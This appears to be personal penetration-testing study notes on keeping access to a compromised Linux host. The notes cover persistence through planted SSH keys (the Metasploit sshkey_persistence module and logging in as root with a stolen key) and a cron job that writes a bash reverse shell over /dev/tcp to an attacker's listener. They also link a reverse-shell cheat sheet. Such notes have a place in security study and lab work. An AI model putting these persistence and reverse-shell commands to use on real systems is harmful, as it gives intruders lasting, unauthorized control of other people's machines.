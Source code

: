 # Via SSH keys:

- post/linux/manage/sshkey_persistence (needed elevated privs, check rootkit for privesc)
	- set CREATESSHFOLDER true
	- check loot, copy the key and save it as a new file and do these -
	- chmod 0400 ssh_key
	- ssh -i ssh_key root@192.182.80.3
- id_rsa : pvt key
- scp user@192.168.1.100:/root/file.txt /home/kali/
- authorized_keys: list of pub keys authorized to access server.
- login with pvt key: ssh -i [pvt_key] [user]@[target_ip]
	
# Using Cron Jobs:

- ps -eaf | grep cron : see if cron service is running
- create netcat listener on attacker machine.
- create cronjob on target machine. 
- echo "* * * * * /bin/bash -c 'bash -i >& /dev/tcp/<attacker_ip>/<port> 0>&1'" > cron
- Another Way: serve http server using python

￼![persistence](./images/lin-persist-01.png)

- cheatsheet: https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
